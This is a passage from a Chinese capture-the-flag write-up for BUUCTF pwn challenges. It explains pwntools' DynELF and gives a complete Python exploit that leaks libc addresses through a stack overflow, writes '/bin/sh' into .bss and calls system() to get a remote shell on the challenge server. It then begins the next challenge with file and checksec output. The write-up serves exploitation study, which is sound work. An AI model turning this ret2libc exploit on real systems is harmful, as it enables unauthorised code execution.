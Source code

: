 `DynELF`函数能通过已知函数迅速查找`libc`库，并不需要我们知道`libc`文件的版本，也不像使用`LibcSearcher`那样需要选择`libc`的版本。`DynELF`函数的使用前提是程序中存在可以泄露libc信息的漏洞，并且漏洞可以被反复触发。我们利用`DynELF`函数泄露出`system`函数的地址后，还需要知道`/bin/sh`的地址，可以利用`read`函数把`/bin/sh`读入到程序的`.bss`段中，然后通过`system`函数调用即可得到靶机的`shell`。编写`Python`代码求解可得`flag{24430808-9b8d-4a29-bd1e-e3b9df054dfb}`。

```python
from pwn import *

context(arch='i386', os='linux', log_level='debug')
io = remote('node4.buuoj.cn', 25155)
elf = ELF('./level1')
main_addr = elf.symbols['main']
write_plt = elf.plt['write']
read_plt = elf.plt['read']
bss_addr = elf.bss()

def leak(address):
    payload = b'a'*(0x88+0x4) + p32(write_plt) + p32(main_addr) + p32(1) + p32(address) + p32(4)
    io.sendline(payload)
    leaked = io.recv(4)
    log.info("[%#x] => %s = %s" % (address, repr(leaked), hex(u32(leaked))))
    return leaked


libc = DynELF(leak, elf=elf)
system_addr = libc.lookup('system', 'libc')
log.success('system_address => %#x' % system_addr)
payload = b'a'*(0x88+0x4) + p32(read_plt) + p32(main_addr) + p32(0) + p32(bss_addr) + p32(8)
io.send(payload)
io.send('/bin/sh\x00')
payload = b'a'*(0x88+0x4) + p32(system_addr) + p32(main_addr) + p32(bss_addr)
io.sendline(payload)
io.interactive()
```

------

### [jarvisoj_level2](https://buuoj.cn/challenges#jarvisoj_level2)

先`file ./level2`查看文件类型再`checksec --file=./level2`检查文件保护情况。

```bash
┌──(tyd㉿kali-linux)-[~/ctf/pwn/buuctf]
└─$ file ./level2    
./level2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a70b92e1fe190db1189ccad3b6ecd7bb7b4dd9c0, not stripped

┌──(tyd㉿kali-linux)-[~/ctf/pwn/buuctf]
└─$ checksec --file=./level2    
[*] '/home/tyd/ctf/pwn/buuctf/level2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
